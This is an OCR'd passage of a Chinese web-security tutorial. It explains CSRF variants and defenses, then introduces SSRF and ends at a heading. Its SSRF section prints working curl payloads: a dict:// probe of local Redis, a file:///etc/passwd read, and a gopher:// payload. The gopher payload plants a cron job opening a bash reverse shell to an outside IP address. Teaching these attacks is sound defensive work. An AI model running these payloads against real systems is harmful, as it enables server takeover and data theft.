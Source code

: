 **3.2 分类**

1.资源包含
资源包含是在大多数介绍 CSRF 概念的演示或基础课程中可能看到的类型。这种类型归结为控制 HTML 标签（例如 `<image>、<audio>、<video>、<object>、<script> `等）所包含的资源的攻击者。如果攻击者能够影响 URL 被加载的话，包含远程资源的任何标签都可以完成攻击。
由于缺少对 Cookie 的源点检查，如上所述，此攻击不需要 XSS，可以由任何攻击者控制的站点或站点本身执行。此类型仅限于 GET 请求，因为这些是浏览器对资源 URL 唯一的请求类型。这种类型的主要限制是它需要错误地使用安全的 HTTP 请求方式。
2.基于表单
通常在正确使用安全的请求方式时看到。攻击者创建一个想要受害者提交的表单; 其包含一个 JavaScript 片段，强制受害者的浏览器提交。
该表单可以完全由隐藏的元素组成，以致受害者很难发现它。
如果处理 cookies 不当，攻击者可以在任何站点上发动攻击，只要受害者使用有效的 cookie 登录，攻击就会成功。如果请求是有目的性的，成功的攻击将使受害者回到他们平时正常的页面。该方法对于攻击者可以将受害者指向特定页面的网络钓鱼攻击特别有效。

3.XMLHttpRequest
XMLHttpRequest 可能是最少看到的方式，由于许多现代 Web 应用程序依赖 XHR，许多应用花费大量的时间来构建和实现这一特定的对策。
基于 XHR 的 CSRF 通常由于 SOP 而以 XSS 有效载荷的形式出现。没有跨域资源共享策略 (Cross-Origin
Resource Sharing, CORS)，XHR 仅限于攻击者托管自己的有效载荷的原始请求。
这种类型的 CSRF 的攻击有效载荷基本上是一个标准的 XHR，攻击者已经找到了一些注入受害者浏览器
DOM 的方式。

**3.3 防御**

• 通过 CSRF-token 或者验证码来检测用户提交
• 验证 Referer/Content-Type
• 对于用户修改删除等操作最好都使用 POST 操作
• 避免全站通用的 Cookie，严格设置 Cookie 的域

# 4.SSRF

**4.1 简介**

服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF 攻击通常针对外部网络无法直接访问的内部系统。

1.漏洞危害

SSRF 可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File 协议读取本地文件。
内网服务防御相对外网服务来说一般会较弱，甚至部分内网服务为了运维方便并没有对内网的访问设置权限验证，所以存在 SSRF 时，通常会造成较大的危害。

**4.2 利用方式**

SSRF 利用存在多种形式以及不同的场景，针对不同场景可以使用不同的利用和绕过方式。
以curl 为例, 可以使用dict 协议操作Redis、file 协议读文件、gopher 协议反弹Shell 等功能，常见的Payload如下：

```
curl -vvv 'dict://127.0.0.1:6379/info'
curl -vvv 'file:///etc/passwd'
# * 注意: 链接使用单引号，避免$ 变量问题
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/103.21.140.84/6789 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'
```

**4.3 相关危险函数**
